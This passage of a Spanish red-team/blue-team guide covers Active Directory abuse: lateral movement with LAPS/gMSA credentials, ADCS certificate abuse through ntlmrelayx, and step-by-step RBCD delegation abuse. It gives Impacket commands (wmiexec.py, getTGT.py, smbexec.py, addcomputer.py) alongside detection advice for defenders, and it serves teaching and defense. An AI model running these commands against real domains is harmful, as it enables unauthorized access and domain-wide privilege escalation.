 #### **Abuso Red Team**
Utiliza las credenciales para movimiento lateral inmediato con herramientas como `wmiexec.py`, `psexec.py`, `smbexec.py`.

```bash
wmiexec.py dominio.local/Administrador:'<LAPS_PASSWORD>'@IP_OBJETIVO
```

#### **Defensa Blue Team / Threat Hunter**
- Monitoriza eventos 4662 sobre objetos AD con permisos de lectura de atributos LAPS/gMSA.
- Alertas de acceso anómalo a cuentas LAPS/gMSA.

---

### B. **ADCS Abuse (Active Directory Certificate Services)**
#### **¿Qué ocurre?**
ntlmrelayx solicita certificados en plantillas vulnerables usando la identidad relayada. Si hay plantillas inseguras, permite obtener certificados válidos para cualquier usuario.

#### **Abuso Red Team**
Un certificado válido permite obtener TGTs y autenticarse como cualquier usuario, incluyendo DA.

```bash
getTGT.py -hashes : -pfx-file <cert.pfx> dominio.local/usuario
smbexec.py -k -no-pass dominio.local/usuario@objetivo
```

#### **Defensa Blue Team / Threat Hunter**
- Hardening de plantillas ADCS y limitación de Enrollment.
- Monitorización de solicitudes/emisiones de certificados y actividad de Enrollment Agents.

---

### C. **RBCD (Resource-Based Constrained Delegation): Explicación profunda y paso a paso**
#### **¿Qué ocurre?**
RBCD permite a un objeto (máquina/usuario) suplantar a cualquier usuario para acceder a un servicio, si el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` está configurado en la máquina objetivo.

#### **Abuso Red Team**
1. **Crea/compromete una cuenta máquina (HACKER$):**
   ```bash
   addcomputer.py -computer-name HACKER$ -computer-pass Sup3rS3cr3t dominio.local/usuario:password
   ```
2. **Modifica el atributo de delegación en la máquina objetivo:**
   ```bash
   ntlmrelayx.py --escalate-user HACKER$ --delegate-access ...
   ```
3. **Como HACKER$:** Abusa de S4U2Self/S4U2Proxy para suplantar usuarios (ej. Administrator) y obtener TGS Kerberos.
4. **Usa el ticket Kerberos para ejecutar comandos con privilegios elevados.**
